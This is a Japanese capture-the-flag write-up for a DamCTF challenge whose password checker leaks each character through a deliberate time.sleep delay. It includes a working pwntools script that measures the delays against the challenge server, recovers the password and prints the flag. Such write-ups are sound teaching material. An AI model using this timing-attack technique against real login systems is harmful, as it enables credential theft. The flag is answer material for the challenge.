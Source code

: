 # side-channel:misc:XXXXpts
We built a super-secure password checker.  
Can you guess what my password is?  
This challenge does NOT require brute forcing, you can get the flag with one connection.  
nc chals.damctf.xyz 30318  
[side-channel.py](side-channel.py)  

# Solution
side-channel.pyが配布される。  
これがサーバー側で動いているようだ。  
以下の関数に不審な点がある。  
```python
~~~
# the function that matters..
def guess_password(s):
    print("Password guessing %s" % s)
    typed_password = ''
    correct_password = True
    for i in range(len(password)):
        user_guess = input("Guess character at position password[%d] = %s?\n" \
                % (i, typed_password))
        typed_password += user_guess
        if user_guess != password[i]:
            # we will punish the users for supplying wrong char..
            time.sleep(0.3 * charactor_position_in_hex(password[i]))
            correct_password = False

    # to get the flag, please supply all 8 correct characters for the password..
    if correct_password:
        cat_flag()

    return correct_password
~~~
```
パスワードが異なる場合、罰として0.3秒単位の遅延が発生するようだ。  
それをツールで計測してやればよい。  
以下のside.pyで入力までを行う。  
```python:side.py
import time
from pwn import *

io = remote("chals.damctf.xyz", 30318)
times = [0] * 8

for i in range(6):
    io.recvline()

for i in range(len(times)):
    t = time.time()
    io.sendline("s")
    io.recvline()
    times[i] = time.time() - t
    print("times[{}]={}".format(i, times[i]))

for i in range(len(times)):
    ans = "{:x}".format(int(times[i] / 3 * 10))
    io.sendline(ans)
    io.recvline()
    print(ans)

io.interactive()
```
実行する。  
```bash
$ python side.py
[+] Opening connection to chals.damctf.xyz on port 30318: Done
times[0]=2.553088665008545
times[1]=3.4497413635253906
times[2]=1.9450631141662598
times[3]=4.6622090339660645
times[4]=1.9509341716766357
times[5]=0.44196557998657227
times[6]=1.6451160907745361
times[7]=3.75463604927063
8
b
6
f
6
1
5
c
[*] Switching to interactive mode
dam{d0nT_d3l4y_th3_pRoC3sSiNg}
```
flagが得られた。  

## dam{d0nT_d3l4y_th3_pRoC3sSiNg}